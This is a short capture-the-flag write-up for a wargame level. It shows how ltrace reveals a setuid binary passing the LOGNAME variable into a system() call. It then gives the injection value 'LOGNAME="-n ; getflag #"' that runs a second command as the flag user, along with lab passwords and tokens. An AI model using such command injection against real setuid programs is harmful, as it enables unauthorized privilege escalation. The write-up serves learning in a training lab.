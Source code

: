 # LEVEL 07

> [!TIP]
> user: `level07` <br>
> pass: `wiok45aaoguiboiki2tuin6ub`

## STEP 01

1. A binary, **level07**, is provided to us, again with the suid bit set to
**flag07**

2. A little ltrace on **level07** show us that the binary take the **LOGNAME**
environment variable and make an argument of a **system** call to the `/bin/echo`
binary
	```bash
	ltrace ./level07
	#__libc_start_main(0x8048514, 1, 0xbffff6d4, 0x80485b0, 0x8048620 <unfinished ...>
	#getegid()                                                  = 2007
	#geteuid()                                                  = 2007
	#setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)        = 0
	#setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)        = 0
	#getenv("LOGNAME")                                          = "level07"
	#asprintf(0xbffff624, 0x8048688, 0xbfffff1e, 0xb7e5ee55, 0xb7fed280) = 18
	#system("/bin/echo level07 "level07
	# <unfinished ...>
	#--- SIGCHLD (Child exited) ---
	#<... system resumed> )                                     = 0
	#+++ exited (status 0) +++
	```

> [!NOTE]
> never trust an user inputable string like this ...

3. So making the following command let us execute the `getflag` command as
   **flag07**
   ```bash
   LOGNAME="-n ; getflag #" ./level07
   #Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
   ```

> [!IMPORTANT]
> the password for the next level is `fiumuikeil55xe9cu4dood66h`
